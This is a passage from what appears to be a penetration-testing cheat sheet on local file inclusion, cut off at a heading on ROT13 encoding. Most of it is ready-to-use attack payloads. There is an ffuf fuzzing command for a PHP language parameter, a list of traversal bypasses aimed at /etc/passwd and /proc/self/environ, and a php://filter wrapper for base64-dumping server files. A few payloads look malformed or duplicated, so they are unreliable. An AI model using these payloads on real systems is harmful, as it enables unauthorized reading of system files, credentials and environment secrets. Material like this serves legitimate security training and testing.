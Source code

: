 ```bash
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
```

## Bypassing LFI Protections

Sometimes protections are in place to prevent directory traversal. These are common techniques to bypass such restrictions:

```bash fold
# URL encoding bypass
http://<target_url>/file.php?recurse=../../../../../etc/passwd% 

# Null byte injection bypass
http://<target_url>/file.php?recurse=../../../../../etc/passwd?nullbyte

# Avoiding ..
http://<target_url>/file.php?recurse=.?/.?/.?/.?/.?/etc/passwd
http://<target_url>/file.php?recurse=.*/.*/.*/.*/.*/etc/passwd
http://<target_url>/file.php?recurse=.?/.?/.?/.?/.?/etc/passwd

# Double URL encoding
http://<target_url>/file.php?recurse=%252e%252e%252fetc%252fpasswd

# Repeated slashes bypass
http://<target_url>/file.php?recurse=....//....//....//etc/passwd

# Viewing a file with null byte injection
http://<target_url>/file.php?recurse=../../../../../etc/passwd%00

# Bypass file extension restrictions
http://<target_url>/file.php?recurse=../../../../../etc/passwd%2500.jpg

# Retrieve system environment variables
http://<target_url>/file.php?recurse=../../../../../proc/self/environ
```

## LFI Wrappers

Wrappers are mechanisms that let you change the file processing behavior to reveal sensitive data or interact with server components:

-   **Base64 encode a file:**

```bash
http://<target_url>/file.php?recurse=php://filter/convert.base64-encode/resource=<file_name>

# Decode base64-encoded output
echo "<BASE64_ENCODED_OUTPUT>" | base64 -d
```

-   **ROT13 encoding:**
